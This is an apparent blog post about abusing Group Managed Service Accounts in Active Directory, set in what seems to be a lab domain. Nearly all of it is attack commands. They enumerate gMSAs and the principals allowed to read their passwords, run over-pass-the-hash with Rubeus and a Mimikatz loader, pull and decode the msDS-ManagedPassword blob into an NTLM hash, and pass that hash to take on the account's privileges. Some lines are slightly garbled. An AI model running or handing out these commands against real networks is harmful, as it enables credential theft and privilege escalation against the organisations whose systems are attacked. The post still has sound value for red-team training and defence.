 ```yaml
---
layout: post
date: 26/11/2022
author: Aswin Gopalakrishnan
title:  Group Managed Service Accounts (gMSA) Abuse
---
```


A group Managed Service Account (gMSA) provides automatic password management, SPN management, and delegated administration for service accounts across multiple servers.

## Enumerate gMSAs and User

A gMSA has objectclass `msDS-GroupManagedServiceAccount`. This can be used to find gMSA accounts.

1.Find gMSAs in the domain. 
```bash
Get-ADServiceAccount -Filter *
Get-DomainObject -LDAPFilter '(objectClass=msDS-GroupManagedServiceAccount)'
```
2.Find the users/principals who have permissions to read the password. In this case, to read gMSA password of `jumpone` service account.
```bash
Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword`
``` 

## Over Pass-the-Hash

### Using Rubeus
```bash
Rubeus.exe asktgt /user:provisioningsvc /aes256:a573a68973bfe9cbfb8037347397d6ad1aae87673c4f5b4979b57c0b745aee2a /domain:us.techcorp.local /createnetonly:C:\Windows\System32\cmd.exe /show
```

### Using Loader and Mimikatz
```bash
.\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe "Sekurlsa::pth /user:provisioningsvc /domain:us.techcorp.local /aes256:a573a68973bfe9cbfb8037347397d6ad1aae87673c4f5b4979b57c0b745aee2a /run:cmd.exe" "exit"`
- `sekurlsa::opassth
```

### Fetch Password Blo
```bash
$Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword`
```
The attribute `msDS-ManagedPassword` stores the password blob in binary form of `MSDS-MANAGEDPASSWORD_BLOB`. Once we have compromised a principal that can read the blob, use ADModule to read and DSInternals to compute NTLM hash.

### Pass-the-hash and get priveleges of gMSA
```bash
sekurlsa::pth /user:jumpone /domain:us.techcorp.local /ntlm:0a02c684cc0fa1744195edd1aec43078
```
